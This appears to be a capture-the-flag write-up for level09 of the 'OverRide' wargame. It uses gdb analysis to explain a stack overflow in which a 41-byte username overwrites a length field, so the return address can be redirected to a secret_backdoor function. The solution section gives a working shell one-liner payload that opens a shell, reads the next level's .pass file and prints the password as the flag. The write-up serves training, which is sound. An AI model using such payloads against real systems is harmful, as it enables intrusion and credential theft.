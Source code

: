 ### notes
```c
0x000055555555488c  secret_backdoor
0x00005555555548c0  handle_msg
0x0000555555554932  set_msg
0x00005555555549cd  set_username
0x0000555555554aa8  main
```
---
##### 0x0000555555554aa8 : main() : assembly
- check [Ressources/asm-explained.md](./Ressources/asm-explained.md#0x0000000000000aa8--main--assembly)
##### 0x00005555555548c0 : handle_msg() : assembly
- check [Ressources/asm-explained.md](./Ressources/asm-explained.md#0x00000000000008c0--handle_msg--assembly)
##### 0x00005555555549cd : set_username(*mail) : assembly
- check [Ressources/asm-explained.md](./Ressources/asm-explained.md#0x00000000000009cd--set_usernamemessage--assembly)
##### 0x0000555555554932 : set_msg(*mail) : assembly
- check [Ressources/asm-explained.md](./Ressources/asm-explained.md#0x0000000000000932--set_msgmessage--assembly)
##### 0x000055555555488c : secret_backdoor() : assembly
- check [Ressources/asm-explained.md](./Ressources/asm-explained.md#0x000000000000088c--secret_backdoor--assembly)

---
### Code Prediction
- check [source](./source)
---
### Stack Illustration
- N/A
---
### Process of the Exploit
....
- flow of program:
   - main calls `handle_msg`
   - `handle_msg` :
      - declare a the struct `*mail` buffer (`0x7fffffffe500`)
      - calls `set_username` with `*mail` as param
      - calls `set_msg` with `*mail` as apram
   - `set_username` :
      - declare `internal buffer` with __128__ bytes and fill it from __user input__ with 128 bytes max
      - copy 41 bytes from the buffer (user input) to ___mail->username___
         - this will cause to overflow the ___mail->len_message___
   - `set_msg`:
      - declare `internal buffer` with __1024__ bytes and fill it from __user input__ with 1024 bytes max
      - copy __n__ bytes from buffer to `mail->message`
         - `n = mail->len_message`
      - the length of `mail->message` is __140 bytes__
- exploit explanation :
   - we can overwrite the `mail->len_message (140)` (which is used in `set_msg` to fill `mail->message[140]` from `buffer[1024]`) by ___sending 41 bytes to username input___
   - so we'll try to ___overflow handle_msg ret address___ with the ___secret_backdoor adress___ using the `len_message` value and filling the padding between the start of `*mail` buffer address and `handle_msg` ret address
- exploit payload pseudo code : 
   - __padding1__ (`40 bytes`) 
   - \+ __\xff__(`len_message new value in hex`) 
   - \+ __\n__ (`to send first input`)
   - \+ __padding3__ (`size between *mail buffer and handle_msg ret adress (200 bytes)`) : check i found it below 
   - \+ __secret_backdoor ret address__ (`8 bytes`)

- break in handle_msg to get the address of the structer buffer because its declared here and also get the address of RIP
```
(gdb) info break
Num     Type           Disp Enb Address            What
1       breakpoint     keep y   0x0000555555554aac <main+4>
2       breakpoint     keep y   0x000055555555491f <handle_msg+95>
(gdb) run
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: allali
>: Welcome, allali

Breakpoint 2, 0x000055555555491f in handle_msg ()
(gdb) disass
Dump of assembler code for function handle_msg:
...
   0x000055555555491c <+92>:    mov    rdi,rax
=> 0x000055555555491f <+95>:    call   0x555555554932 <set_msg>
   0x0000555555554924 <+100>:   lea    rdi,[rip+0x295]        # 0x555555554bc0
...    
End of assembler dump.
(gdb) x/x $rdi
0x7fffffffe500: 0x0a  <------------ address of start of buffer (struct mail)
(gdb) i f
Stack level 0, frame at 0x7fffffffe5d0:
 rip = 0x55555555491f in handle_msg; saved rip 0x555555554abd
 called by frame at 0x7fffffffe5e0
 Arglist at 0x7fffffffe5c0, args: 
 Locals at 0x7fffffffe5c0, Previous frame's sp is 0x7fffffffe5d0
 Saved registers:
  rbp at 0x7fffffffe5c0, rip at 0x7fffffffe5c8  <------------ address of return address
(gdb) 
```
- we got the desired address:
   - `*mail` (buffer) address : **0x7fffffffe500**
   - `handle_msg` return address : **0x7fffffffe5c8**
   - space between : `0x7fffffffe5c8` - `0x7fffffffe500` = **`200`**
   - to overwrite ret address with scret_backdoor adress, we use the following payload:
      - padding (200 bytes) + secret_backdoor address (8 bytes)
---

### Solution :
- sir 3llah :) 
```shell
level09@OverRide:~$ (python -c 'print("A" * 40 + "\xff" + "\n" + "A" * 200 + "\x8c\x48\x55\x55\x55\x55\x00\x00" + "\n" + "/bin/sh")'; cat) | ./level09 
--------------------------------------------
|   ~Welcome to l33t-m$n ~    v1337        |
--------------------------------------------
>: Enter your username
>>: >: Welcome, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�>: Msg @Unix-Dude
>>: >: Msg sent!
pwd
/home/users/level09
whoami
end
cd /home/users/end
ls
end
ls -la
total 13
dr-xr-x---+ 1 end  end     80 Sep 13  2016 .
dr-x--x--x  1 root root   260 Oct  2  2016 ..
-rw-r--r--  1 end  end    220 Sep 10  2016 .bash_logout
lrwxrwxrwx  1 root root     7 Sep 13  2016 .bash_profile -> .bashrc
-rw-r--r--  1 end  end   3489 Sep 10  2016 .bashrc
-rwsr-s---+ 1 end  users    5 Sep 10  2016 end
-rw-r--r--+ 1 end  end     41 Oct 19  2016 .pass
-rw-r--r--  1 end  end    675 Sep 10  2016 .profile
cat .pass
j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE

```
|**`flag : j4AunAPDXaJxxWjYEUxpanmvSgRDV3tpA5BEaBuE`**
---

### Ressources :
N/A